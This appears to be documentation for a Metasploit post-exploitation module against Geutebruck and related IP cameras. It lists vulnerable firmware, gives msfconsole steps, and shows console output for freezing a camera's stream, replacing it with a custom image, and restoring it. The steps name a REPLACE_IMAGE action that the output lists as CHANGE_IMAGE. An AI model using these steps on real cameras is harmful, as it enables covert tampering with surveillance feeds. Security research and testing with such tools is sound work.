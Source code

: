 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27, firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module will be applied on a session connected to a Geutebruck Camera shell. It will freeze the camera display/deface
the display of the camera on the web panel with an image.

Users can find additional details of the related vulnerabilities on the blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps
### Freezing image
  1. Launch msfconsole
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action FREEZE_CAMERA`
  6. Do: `run` 
  7. The image should be frozen

### Replacing by a custom image
  1. Launch msfconsole
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action REPLACE_IMAGE`
  6. Do: `set IMAGE /local/image/path/to/upload`
  7. Do: `run` 
  8. The image should be replaced by the custom one

### Restore original state
  1. Launch msfconsole
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action RESUME_STREAM`
  6. Do: `run` 
  7. The stream should be resumed

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
@use post/linux/manage/geutebruck_post_exp
msf6 post(linux/manage/geutebruck_post_exp) > show actions

Post actions:

   Name           Description
   ----           -----------
   CHANGE_IMAGE   It replaces the video stream by an arbitrary image
   FREEZE_CAMERA  It freezes the last image from the video stream
   RESUME_STREAM  It resumes the video stream back to a normal state


msf6 post(linux/manage/geutebruck_post_exp) > show options

Module options (post/linux/manage/geutebruck_post_exp):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   IMAGE                     no        Local image path to upload
   SESSION                   yes       The session to run this module on.


Post action:

   Name           Description
   ----           -----------
   FREEZE_CAMERA  It freezes the last image from the video stream


msf6 post(linux/manage/geutebruck_post_exp) > set IMAGE /var/randori.jpg
IMAGE => /var/randori.jpg
msf6 post(linux/manage/geutebruck_post_exp) > set action CHANGE_IMAGE
action => CHANGE_IMAGE
msf6 post(linux/manage/geutebruck_post_exp) > set session 1
session => 1
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Uploading a custom image...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Done! The stream should be replaced by your image!
[*] Post module execution completed
msf6 post(linux/manage/geutebruck_post_exp) > set action FREEZE_CAMERA
action => FREEZE_CAMERA
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Taking a snapshot...
[*] Freezing the stream...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Stream frozen!
[*] Post module execution completed
msf6 post(linux/manage/geutebruck_post_exp) > set action RESUME_STREAM
action => RESUME_STREAM
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Restoring main.js backup...
[*] Restored! Stream back to a normal state.
[*] Post module execution completed
```